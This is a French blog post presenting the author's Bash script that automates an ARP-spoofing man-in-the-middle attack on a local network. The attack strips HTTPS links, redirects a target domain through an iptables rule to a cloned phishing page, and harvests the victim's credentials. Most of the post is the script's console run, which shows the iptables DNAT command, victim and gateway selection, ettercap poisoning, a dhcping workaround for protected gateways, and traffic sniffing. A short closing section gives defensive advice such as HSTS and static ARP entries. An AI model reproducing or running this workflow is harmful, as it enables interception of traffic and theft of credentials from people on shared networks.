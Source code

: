 ```yaml
---
layout: post
title:  "Phising d'un site web avec attaque MITM"
date:   2016-09-08
categories: mitm
---
```

Phising d'une page web avec une attaque MITM.
----------

Hi Everybody,

Je me suis dit qu'il était intéressant de partager avec vous un petit script **Bash** que j'ai créé pour automatiser une attaque MITM et rediriger vers une fausse page web que nous allons héberger ([https://github.com/phackt/Workshops/tree/master/mitm/phishing](https://github.com/phackt/Workshops/tree/master/mitm/phishing)). L'objectif est pour une attaque ciblée de rendre l'obtention des credentials la plus transparente possible. Cependant il n'existe pas de solution miracle, à chaque combat sa stratégie.  
  
Ici nous allons donc cibler un site possédant une page d'accueil non sécurisée (HTTP), permettant l'interception en clair des liens HTTPS et de les transformer en liens HTTP classiques. Certains outils comme [sslstrip](https://github.com/moxie0/sslstrip) permettent ce genre d'opérations, en éliminant le caching des pages et en traitant également les headers response **Location** lors des redirections. De notre coté nous utiliserons un simple filtre [ettercap](https://github.com/Ettercap/ettercap) que nous compilerons avec etterfilter.  
  
Pour petit rappel:  

 > L'attaque de l'homme du milieu ou man-in-the-middle attack (MITM) est une attaque qui a pour but d'intercepter les communications entre deux parties, sans que ni l'une ni l'autre ne puisse se douter que le canal de communication entre elles a été compromis.  
  
![Mitm]({{ site.url }}/public/images/mitm-phishing/owasp-man_in_the_middle.jpg)  
Cette attaque se base sur la corruption du cache ARP enregistrant les correspondances @IP <-> @MAC sur un réseau local. Vous regarderez les HotSpot et autres Wifi gratuits d'un autre oeil ;). Il existe plusieurs outils pour effectuer une [attaque MITM](https://www.information-security.fr/attaque-man-in-the-middle-via-arp-spoofing/) et nous utiliserons Ettercap.  
  
Le site web a été falsifié grâce à l'outil [setoolkit](https://github.com/trustedsec/social-engineer-toolkit) (Social-Engineer Toolkit). Concernant la redirection du domaine, j'ai simplement effectué une règle iptables PREROUTING DNAT au lieu d'effectuer un DNS SPOOFING qui aurait demandé que le cache DNS soit vidé.   
  
Mais venons-en au cas pratique concernant l'exécution du script **phishing.ksh**:  
  
```
-----------------------------------------------
   --==MITM attack with website phishing==--   
-----------------------------------------------

[+] Flushing ip forwarding
[+] Flushing iptables

#HERE SET THE NAME OF THE LOG DIR THAT WILL BE CREATED
Name of 'Session'? (name of the folder that will be created with all the log files): test

#CHOOSE YOUR INTERFACE UP
[+] Discovering interfaces
lo:     state  UNKNOWN
eth0:   state  DOWN
wlan0:  state  UP
Please enter your interface: wlan0

#IF YOU WANNA CHANGE YOUR MAC ADDRESS (http://www.macvendors.com/)
Do you wanna spoof MAC @ ? [yYnN]: n

#TYPE THE DOMAIN THAT WILL BE REDIRECTED TO YOUR WEBSITE
Which domain do you wish to redirect ?: secure.domain.fr

#ASSUMING 192.168.1.99 IS THE MITM MACHINE LOCAL IP WITH APACHE RUNNING
[+] Setting up DNAT iptables rule
iptables -t nat -A PREROUTING -p tcp --dport 80 -d secure.domain.fr -j DNAT --to-destination 192.168.1.99:8080

#IF YOU WANNA RUN SETOOLKIT ( choose options 1) Social-Engineering -> 2) Website Attack Vectors -> 3) Credential Harvester Attack Method )
[+] Setting up website phishing
Do you wanna run setoolkit ? [yYnN]: n

[+] Starting apache2 service

#RUN NETDISCOVER IN ORDER TO ARPING THE SUBNET
[+] Net discovering
Do you wanna netdiscovering ? [yYnN]: y
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     01:12:23:34:45:56      1      42  Gateway
 192.168.1.100   12:23:34:45:56:67      2      84  Apple Macbook Pro

-- Active scan completed, 1 Hosts found.


[+] Routing information
Table de routage IP du noyau
Destination     Passerelle      Genmask         Indic Metric Ref    Use Iface
0.0.0.0         192.168.1.1     0.0.0.0         UG    600    0        0 wlan0
192.168.1.0     0.0.0.0         255.255.255.0   U     600    0        0 wlan0

#CHOOSE THE VICTIM
Enter target1 ip: 192.168.1.11
#CHOOSE THE SECOND MACHINE (DEFAULT IS GATEWAY)
Enter target2 ip [press enter for default gateway 192.168.1.1]: 

#LAUNCHING ETTERCAP WITH THE HTTPS STRIP ETTERCAP FILTER (https_strip.ef)
[+] Running MITM attack...

#IF YOU NEED TO LEGITIMATE AN ARP REPLY (IF GATEWAY IS A PRETENTIOUS YOUNG MADAM)
/!\ Please check poisoning is OK by typing 'P', then 'chk_poison'
Command for protected gateway: 
dhcping -c 192.168.1.100 -h 12:23:34:45:56:67 -s 192.168.1.1 -r -v

#SNIFFING HTTP REQUESTS
[+] Starting GET/POST logging...
urlsnarf: listening on wlan0 [tcp port 80 or port 8080 or port 3128]

#TAILING PHISHING WEBSITE HARVESTER FILE
[+] Looking for credentials...

[+] IMPORTANT...
After the job please close this script and clean up properly by hitting 'qQ'
```

Les outils MITM peuvent également forger dynamiquement un certificat pour interception des connexions TLS/SSL. Cependant ce dernier n'étant pas signé par une autorité de certification, un warning dans votre navigateur affichera que le certificat est non valide (assez discret sous Safari cependant)...  

![Certificat]({{ site.url }}/public/images/mitm-phishing/alerte-certificat.png)  

 > <span style="color: red">Cliquez sur 'Back to safety'!!</span>
  
Dans notre exemple, la connexion au site falsifié est non sécurisée (évitant les alertes de certificats). Donc vérifier toujours le cadenas vert dans la barre url et que votre connexion soit sécurisée, sinon COURREZZZZZ :runner::runner:!!!!. Nous voyons aussi l'importance du HSTS (Strict-Transport-Security) abordé dans les [précédents articles]({{ site.url }}/xss-cors-csrf-partie-3-cors-csrf#hsts) pour forcer les connexions HTTPS et bannir tout certificat non valide. Des méthodes de détection d'ARP spoofing existent, la plus contraignante étant l'ajout statique d'une correspondance dans la table ARP. Certains firewall (ex [Symantec](https://www.symantec.com/security_response/glossary/define.jsp?letter=a&word=anti-mac-spoofing)) empêchent les ARP Reply non légitimes. Réfléchissez donc deux fois avant de vous connecter à un HotSpot.
  
A bientôt et surtout...   

```
Keep the positive attitude ;) !
```
<br />
<br />
Références :  
[https://www.owasp.org/index.php/Man-in-the-middle_attack](https://www.owasp.org/index.php/Man-in-the-middle_attack)  
[https://www.information-security.fr/attaque-man-in-the-middle-via-arp-spoofing/](https://www.owasp.org/index.php/Man-in-the-middle_attack)